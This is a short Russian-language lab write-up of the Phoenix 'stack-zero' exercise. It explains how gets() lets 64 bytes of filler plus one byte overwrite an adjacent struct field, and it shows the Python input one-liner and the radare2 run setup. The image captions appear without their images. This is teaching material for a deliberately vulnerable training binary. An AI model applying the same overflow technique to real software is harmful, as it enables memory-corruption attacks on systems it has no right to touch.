

Цель задания - изменить значение поля "volatile int changeme" структуры locals.

Структура имеет вид
```  
struct {
  char buffer[64];
  volatile int changeme;
} locals;
```

Уязвимое место в программе 
`gets(locals.buffer);`

Это значит, что необходимо ввести 64 байт мусора и от 1 до 4 байт не 0 значение. (т.к. поле имеет размер int (4 байта))

Для выполнения задания, необходимо заполнить поле произвольным значением отличным от 0 
`locals.changeme != 0`

Пишем профиль для rr2
```
#!/usr/bin/rarun2
stdin=/opt/phoenix/amd64/inputfileSZ
```

Заполняем файл inputfileSZ
```
python3 -c "print('A' * 64 + '\x01', end='')" > inputfileSZ
```

Получилось 


Запускаем радар2
r2 -R profileSZ.rr2 -d stack-zero

Состояние стека до 


Состояние стека после чтения stdin


Код проверки 


Содержимое регистра RAX после\


Победа

